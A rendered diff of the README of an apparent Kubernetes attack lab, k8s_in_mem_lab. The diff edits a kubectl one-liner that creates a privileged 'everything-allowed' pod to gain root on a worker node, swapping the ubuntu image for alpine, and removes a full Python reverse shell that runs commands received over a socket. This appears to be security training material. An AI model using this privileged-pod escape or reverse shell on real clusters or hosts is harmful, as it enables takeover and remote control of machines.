

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 87% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -203,11 +200,11 @@ if ($response->{success}) {
 }
 ```
 
-Once we can have kubectl installed and notice we can create pod we will create an attack pod to gain root one Kubernetes worker node.
+Once we can have kubectl installed and notice we can create pods, we will create an attack pod to gain root on Kubernetes worker node.
 
 ## Setup a `bad` pod from Bishopfox in a oneliner
 ```sh
-kubectl run everything-allowed-exec-pod --image=ubuntu --overrides='
+kubectl run everything-allowed-exec-pod --image=alpine --overrides='
 {
   "apiVersion": "v1",
   "spec": {
@@ -217,7 +214,7 @@ kubectl run everything-allowed-exec-pod --image=ubuntu --overrides='
     "containers": [
       {
         "name": "everything-allowed-pod",
-        "image": "ubuntu",
+        "image": "alpine",
         "securityContext": {
           "privileged": true
         },
@@ -303,39 +300,7 @@ func main() {
     log.Println("Commands executed successfully")
 }
 ```
-## Python 3 Reverse Shell
-```python
-import socket
-import subprocess
-import os
 
-# Set the server's IP address and port number
-SERVER_HOST = '127.0.0.1'
-SERVER_PORT = 1337
-
-# Create a socket object
-s = socket.socket()
-
-# Connect to the server
-s.connect((SERVER_HOST, SERVER_PORT))
-
-# Send a message to the server saying we've connected
-s.send(str.encode("Connection established!"))
-
-# Receive commands from the remote server and run on the local machine
-while True:
-    # Receive command from the server
-    command = s.recv(1024).decode()
-
-    # If the received command is exit, close the socket and exit
-    if command.lower() == 'exit':
-        s.close()
-        break
-    # Execute the command and retrieve the results
-    output = subprocess.getoutput(command)
-    # Send the results back to the server
-    s.send(str.encode(output + "\n"))
-```
 ## Perl Curl
 ```sh
 #!/usr/bin/perl use strict;
````
Also changed, not shown: other parts of README.md (+40 -43 lines), images/Chatbot.png (added).
